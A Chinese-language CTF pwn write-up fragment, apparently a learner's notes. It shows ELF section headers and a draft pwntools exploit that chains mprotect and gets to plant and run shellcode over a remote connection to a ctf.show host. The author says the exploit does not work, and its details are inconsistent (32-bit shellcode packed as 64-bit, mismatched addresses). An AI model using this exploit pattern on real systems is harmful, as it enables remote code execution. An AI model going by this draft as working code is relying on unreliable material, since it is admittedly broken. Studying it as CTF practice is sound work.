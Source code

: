 ```c
  [17] .eh_frame         PROGBITS         0000000000400d98  00000d98
       0000000000000160  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000601e10  00001e10
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000601e18  00001e18
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000601e20  00001e20
       00000000000001d0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000601ff0  00001ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000602000  00002000
       0000000000000038  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000602038  00002038
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000602050  00002048
       0000000000000020  0000000000000000  WA       0     0     16
  [25] .comment          PROGBITS         0000000000000000  00002048
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00002078
       0000000000000678  0000000000000018          27    43     8
  [27] .strtab           STRTAB           0000000000000000  000026f0
       0000000000000239  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00002929
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

位置为：0x0000000000602000

 找到类read函数gets

0000000000400657

最后改出来的exp运行交互没结果，疑惑

之后再来仔细研究

待改exp：

```python
# -*- coding: UTF-8 -*-
from pwn import *
u=remote("pwn.challenge.ctf.show",28162)
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
payload = b'a'*(0x20+8)
payload += p64(0x00007ffff7afd7e0) # mprotect函数地址
payload += p64(0x00000000004007e0) # 3 pop 1 ret地址
payload += p64(0x0000000000602000) # 需要修改的内存的起始地址
payload += p64(0x1000) # 修改内存空间的大小
payload += p64(0x7) # 需要赋予的权限
payload += p64(0x806bee0) # gets函数地址
payload += p64(0x0000000000602000) # gets函数返回地址(就是我们shellcode所在地址,即我们修改的内存空间的起始地址)
payload += p64(0x0000000000602000) # shellcode地址
payload += p64(len(shellcode))
u.sendline(payload)
u.sendline(shellcode)
u.interactive()
```
